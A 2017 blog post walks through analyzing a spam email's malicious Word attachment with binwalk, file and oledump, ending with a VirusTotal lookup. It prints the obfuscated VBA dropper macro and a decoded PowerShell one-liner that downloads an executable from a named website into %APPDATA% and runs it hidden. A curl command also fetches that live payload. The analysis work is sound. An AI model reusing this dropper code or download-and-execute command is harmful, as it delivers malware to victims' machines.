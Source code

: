 ```yaml
---
layout: post
title:  "Analyzing maldocs with oledump"
date:   2017-01-29 07:00:00
comments: true
categories: reversing security malware macros
---
```



I always worked for the red team but as I was going through my spam folder this morning I decided I'd give a try at analyzing malicious attachments. I also secretly always wanted to check out Didier Stevens' [oledump](https://blog.didierstevens.com/programs/oledump-py/) tool so this was a good excuse :)

#### E-mail

The mail looked like this:

{% highlight text %}
Date: Fri, 27 Jan 2017 12:26:06 +0100
From: Mihail <hunter@puppetlabs.com>
To: contact@quentinkaiser.be
Subject: question
Reply-To: Mihail <AdamBuchbinder@tutanota.com>
X-Mailer: Microsoft Windows Live Mail 14.0.8117.416
Message-ID: <1CE6AE0E2AFED033EFEAA3140087FFB0@sh>

Hey. I found your software is online. Can you write the code for my project?
Terms of reference attached below.
The price shall discuss, if you can make. Answer please.
{% endhighlight %}

The attachment is a file named "New.gz" allegedly containing the "Terms of reference" Mihail is talking about.

#### Malicious attachment fingerprinting

So let's dive in ! I launched a VM and ran some basic checks on the file. `binwalk` told us that the file is actually a RAR archive, even though the extension says `.gz`

{% highlight sh %}
$ binwalk New.gz 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             RAR archive data, first volume type: MAIN_HEAD
{% endhighlight %}

The archive contains a document named `New.doc`, apparently a Microsoft Office document:

{% highlight sh %}
$ file New.doc 
New.doc: Composite Document File V2 Document, Little Endian, Os: Windows, Version 6.1, Code page: 1251, Template: Normal, Last Saved By: Normal, Revision Number: 2, Name of Creating Application: Microsoft Office Word, Create Time/Date: Fri Jan 27 05:14:00 2017, Last Saved Time/Date: Fri Jan 27 05:14:00 2017, Number of Pages: 1, Number of Words: 0, Number of Characters: 5, Security: 0
{% endhighlight %}

#### Malicious attachment analysis

I can finally try oledump !

{% highlight sh %}
$ python oledump.py -i New.doc
1:       114 '\x01CompObj'
2:      4096 '\x05DocumentSummaryInformation'
3:      4096 '\x05SummaryInformation'
4:     11555 '1Table'
5:       367 'Macros/PROJECT'
6:        41 'Macros/PROJECTwm'
7: M   84985 'Macros/VBA/ThisDocument'
8:     16765 'Macros/VBA/_VBA_PROJECT'
9:       517 'Macros/VBA/dir'
10:       216 'MsoDataStore/\xc3\x90O\xc3\x904\xc3\x91\xc3\x9f\xc3\x84\xc3\x80\xc3\x84\xc3\x840\xc3\x9fLKL\xc3\x95CGFI\xc3\x89A==/Item'
11:       341 'MsoDataStore/\xc3\x90O\xc3\x904\xc3\x91\xc3\x9f\xc3\x84\xc3\x80\xc3\x84\xc3\x840\xc3\x9fLKL\xc3\x95CGFI\xc3\x89A==/Properties'
12:     15974 'WordDocument'
{% endhighlight %}

We can see that there is a VBA macro on stream 7, let's extract it with oledump:

{% highlight sh %}
$ python oledump.py -s 7 -v New.doc > payload.vba
{% endhighlight %}

The VBA payload contains a shit load of "obfuscated" code but we can find the interesting part by pinpointing where the call to `Shell` happens. We can see in the excerpt below that the argument provided to `Shell` is a concatenation of the `sraqteby` array elements. Yes, there are some array indexing bullshit. I doubt this ever made reversing difficult :D

{% highlight vbnet %}
sraqteby = Array("CM", "D.", "ex", "e ", "/C", " """, "po", "We", "^R", "sH", "^E", "^l", "L.", "EX", "^e", "  ", "  ", " ^", "-e", "XE", "^C", "UT", "^I", "^o", "^n", "^P", "o^", "LI", "^C", "y ", "by", "p^", "As", "^s", "^ ", "  ", " ^", "-N", "^O", "pr", "^O", "^F", "i^", "l^", "e ", "-^", "wi", "nD", "ow", "ST", "^y", "LE", "^ ", "  ", " h", "^I", "Dd", "en", "  ", " ^", "(n", "^e", "^W", "-O", "^b", "je", "^C", "T^", "  ", "  ", "s^", "yS", "te", "^M", "^.", "^N", "ET", ".W", "^E",
"b^", "cL", "i^", "En", "^T", "^)", "^.", "^d", "OW", "^N", "l^", "oa", "^d", "^F", "I^", "lE", "('", "ht", "tp", ":/", "/n", "ic", "kl", "ov", "eg", "ro", "ve", ".c", "o.", "uk", "/w", "p-", "co", "nt", "en", "t/", "ma", "rg", "in", "26", "01", "_o", "ne", "ch", "at", "_w", "or", "d.", "ex", "e'", ",'", "%A", "PP", "dA", "ta", "%.", "Ex", "e'", ");", "s^", "TA", "rT", "-p", "RO", "^C", "^E", "s^", "S ", "'%", "AP", "pd", "aT", "a%", ".E", "xE", "'""")

ozqaqzusw = Array("odevzu", "qvonwav", "ohizef", "decaqo", "azxut", Join(sraqteby, ""), "irtubgu")(5)


eratcyke = ucbejja & ubep & ogyl
zema2 = rbipole & scivikwo & ynehsoc & qhyxob
vnilden3 = ejveme & omvyrzi & ezeln & nrezi
uhysylhi = ycijt & yzowr & olec
orybm5 = uzsygip & uhyhges & rmyle
mufqim = wnisofmo & nukag
ywgodyr = Array(mufqim, orybm5, uhysylhi, vnilden3, zema2, Shell(Array(ozqaqzusw)(0), 0), eratcyke)(5)
{% endhighlight %}

I opened a Python interpreter and executed the code below to get the argument provided to `Shell`:

{% highlight python %}
a = ["CM", "D.", "ex", "e ", "/C", " """, "po", "We", "^R", "sH", "^E", "^l", "L.", "EX", "^e", "  ", "  ", " ^", "-e", "XE", "^C", "UT", "^I", "^o", "^n", "^P", "o^", "LI", "^C", "y ", "by", "p^", "As", "^s", "^ ", "  ", " ^", "-N", "^O", "pr", "^O", "^F", "i^", "l^", "e ", "-^", "wi", "nD", "ow", "ST", "^y", "LE", "^ ", "  ", " h", "^I", "Dd", "en", "  ", " ^", "(n", "^e", "^W", "-O", "^b", "je", "^C", "T^", "  ", "  ", "s^", "yS", "te", "^M", "^.", "^N", "ET", ".W", "^E", "b^", "cL", "i^",
 "En", "^T", "^)", "^.", "^d", "OW", "^N", "l^", "oa", "^d", "^F", "I^", "lE", "('", "ht", "tp", ":/", "/n", "ic", "kl", "ov", "eg", "ro", "ve", ".c", "o.", "uk", "/w", "p-", "co", "nt", "en", "t/", "ma", "rg", "in", "26", "01", "_o", "ne", "ch", "at", "_w", "or", "d.", "ex", "e'", ",'", "%A", "PP", "dA", "ta", "%.", "Ex", "e'", ");", "s^", "TA", "rT", "-p", "RO", "^C", "^E", "s^", "S ", "'%", "AP", "pd", "aT", "a%", ".E", "xE"]

print  "".join(a).replace("^", "")
{% endhighlight %}

Which gave me the following one-liner that downloads an executable with PowerShell and executes it (URL escapes are mine):

```
"CMD.exe /C poWeRsHElL.EXe     -eXECUTIonPoLICy bypAss    -NOprOFile -winDowSTyLE    hIDden   (neW-ObjeCT    sySteM.NET.WEbcLiEnT).dOWNloadFIlE('http://nicklovegrove[.]co[.]uk/wp-content/margin2601_onechat_word.exe','%APPdAta%.Exe');sTArT-pROCEsS '%APpdaTa%.ExE"
```

Let's hash it !

{% highlight sh %}
$ curl http://nicklovegrove.co.uk/wp-content/margin2601_onechat_word.exe | sha1sum
0df45a365e2135531b0beba8e50d0453eee70047
{% endhighlight %}

Submitting the hash to [VirusTotal](https://www.virustotal.com/en/file/3f73b09d9cdd100929061d8590ef0bc01b47999f47fa024f57c28dcd660e7c22/analysis), we can see it's already detected as a Trojan by some AV. Some analyst provided the download URL in comments.


That's all for now, I'm not good enough at reversing Windows executables to go further :)
